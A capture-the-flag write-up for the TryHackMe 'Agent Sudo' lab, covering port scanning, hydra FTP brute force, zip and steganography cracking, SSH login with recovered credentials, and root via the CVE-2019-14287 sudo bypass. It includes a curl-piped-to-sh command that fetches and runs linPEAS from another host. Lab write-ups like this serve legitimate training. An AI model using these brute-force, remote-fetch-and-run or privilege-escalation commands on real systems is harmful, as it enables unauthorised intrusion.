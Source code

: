 ```yaml
---
title: "[TryHackMe] AgentSudo"
author: Tri Nguyen
date: 2021-11-20 17:00:00 -0700
categories: [CTF, Write Up]
tags: [ctf, write-up, tryhackme, agent-sudo, thm]
---
```


IP: http://10.10.239.92/

# Task 2: Enumerate

## How many open ports?

- nmap scan

```shell
┌──(root💀kali)-[/home/kali/Desktop/thm/agent-sudo]
└─# nmap -sS -sV -p- 10.10.239.92 | tee nmap.txt  
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-20 17:42 EST
Nmap scan report for 10.10.239.92
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 827.24 seconds
```

- `3` open ports.

## How you redirect yourself to a secret page?

- When you go to the website, it said

    > Use your own **codename** as user-agent to access the site.

- `user-agent`

## What is the Agent's name?

- I parse the request to Burp's repeater. Not sure where to look for agent name, but in the hint, it said that try with `User-Agent: C`

- We are redirected to `agent_C_attention.php`

- Agent name is `chris`

# Task 3: Hash cracking and brute-force

## FTP Password

```shell
hydra -t 30 -l chris -P /usr/share/wordlists/rockyou.txt -vV 10.10.239.92 ftp
```

- FTP: `chris:crystal`

## Zip file password

- We have 2 pictures and a txt file but no zip files.

- May be it is embedded in the pictures!

```shell
┌──(root💀kali)-[/home/kali/Desktop/thm/agent-sudo]
└─# binwalk -e cutie.png          

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

- Taada! A zip file. But it is password protected. It is located in your extracted folder, `8702.zip`

- We are gonna crack it using JohnTheRipper.

- Googling around shows me how.

```shell
$ zip2john 8702.zip > 8702.hash

┌──(root💀kali)-[/home/…/Desktop/thm/agent-sudo/_cutie.png.extracted]
└─# john 8702.hash --wordlist=/usr/share/wordlists/rockyou.txt                                                                           1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE (2021-11-20 19:07) 3.703g/s 113777p/s 113777c/s 113777C/s michael!..*star*
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

- Password is `alien`

## steg password:

- You will see a letter inside the zip file
    
    > We need to send the picture to 'QXJlYTUx' as soon as possible!

- It is a base64 string.

- `Area51`

## What is the other agent's name?

- We haven't looked at the jpeg yet. Use the password `Area51`

```shell
┌──(root💀kali)-[/home/kali/Desktop/thm/agent-sudo]
└─# steghide info cute-alien.jpg                                                                                                         1 ⨯
"cute-alien.jpg":
  format: jpeg
  capacity: 1.8 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "message.txt":
    size: 181.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes

$ steghide extract -sf cute-alien.jpg
```

- Read the extracted `message.txt`

- `james`

## What is the SSH password?

- `james:hackerrules!`

# Task 4: Capture the user flag

## What is the user flag?

- ssh to james's account. You will find the flag in the home directory.

- `b03d975e8c92a7c04146cfa7a5a313c7`

## What is the incident of the photo called?

- Grab the picture for further inspection. Nothing abnormal here. Hmm...

```shell
┌──(root💀kali)-[/home/kali/Desktop/thm/agent-sudo]
└─# scp james@10.10.239.92:/home/james/Alien_autospy.jpg .
james@10.10.239.92\'s password: 
Alien_autospy.jpg                                                                                          100%   41KB  75.7KB/s   00:00    
                                                                                                                                             
┌──(root💀kali)-[/home/kali/Desktop/thm/agent-sudo]
└─# exif Alien_autospy.jpg 
EXIF tags in 'Alien_autospy.jpg' ('Intel' byte order):
--------------------+----------------------------------------------------------
Tag                 |Value
--------------------+----------------------------------------------------------
X-Resolution        |72
Y-Resolution        |72
Resolution Unit     |Inch
Exif Version        |Exif Version 2.1
FlashPixVersion     |FlashPix Version 1.0
Color Space         |Uncalibrated
--------------------+----------------------------------------------------------
```

- Search the image on Google image and you find it ;) Somehow I find it disturbing.

- `Roswell Alien Autopsy`

# Task 5: Privilege Escalation

## What is the CVE?

- I downloaded linPEAS then run it remotely from the victim's machine

- Excerpt from linPEAS's instruction:

```shell
#Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

- I gotta admit I work from the bottom up, weird...

- After running linPEAS, it points me to a sudo privelge escalation

    > https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version

- After I used it I got root access

```shell
sudo -u#-1 /bin/bash
```

- The CVE is `CVE-2019-14287` if you're wondering.

## Root flag

- In `/root`, `b53a02f55b57d4439e3341834d70c062`

## (Bonus) Who is agent R?

- In the root message, it said `DesKel` is agent R ;)


